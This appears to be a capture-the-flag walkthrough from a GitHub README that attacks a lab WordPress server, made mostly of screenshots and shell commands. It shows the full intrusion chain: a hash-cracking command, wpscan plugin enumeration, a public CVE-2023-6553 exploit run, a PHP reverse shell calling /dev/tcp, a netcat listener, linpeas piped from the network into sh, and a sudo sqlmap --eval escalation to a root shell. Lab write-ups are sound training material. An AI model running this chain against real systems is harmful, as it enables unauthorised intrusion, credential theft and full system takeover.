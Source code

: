 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9f53dde2-8fda-4c59-80d5-d6b02a6086b7)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/b8a594be-31ef-4467-91f7-fbaa33ad2067)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/00806b5b-8a84-4cfc-88fc-22413357b290)
```
john --wordlist=/home/kali/PayloadsAllTheThings/rockyou.txt hash.txt
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/d2b41dd2-9edf-4593-b360-1f436cae93ee)

```
wpscan --url http://62.173.140.174:28580/ --enumerate ap --plugins-detection aggressive
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/5c687398-0fe3-43b0-b37e-e8588fe155fc)

https://github.com/Chocapikk/CVE-2023-6553
```
python exploit.py -u http://62.173.140.174:28580/
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/f23edae7-f8e4-41a6-ab3a-029afce66eca)
```
echo '<?php phpinfo(); ?>' > /var/www/html/test.php
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c66d94c1-de4b-4215-9ad9-3994e66440eb)
```
wget http://IP:1234/myrev.php 
[cat /var/www/html/](http://62.173.140.174:28580/wp-content/plugins/backup-backup/includes/myrev.php)
<?php echo system("bash -c 'sh -i >& /dev/tcp/IP/1234 0>&1'"); ?>
nc -lvnp 1234 
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c492a62a-122a-4513-a8a0-b40b836af3b0)
```
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/91ab5755-96d1-4f8c-b35c-c7c66bcfb5c3)
```
nc localhost 1337
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/f63d03aa-f8c0-432d-a33b-ad36ffad97fc)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/43d4cfea-11ca-4e1d-831f-f6494626d3cb)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/6afbcaad-2e60-4847-8278-f2c9e524cfab)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/ea6d2d6c-3fc5-4bd2-b53f-a833539a2443)
```
ssh henry@62.173.140.174 -p 28522
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/6315c96f-25b3-4703-b83a-b072a7168a68)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/06f15495-1c5c-445c-b8a2-59c2a43f4c90)

https://gtfobins.github.io/gtfobins/sqlmap/
```
sudo sqlmap -u 127.0.0.1 --eval="import os; os.system('/bin/sh')"
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/e90cd810-a421-4c30-bcab-2afd7301be7a)






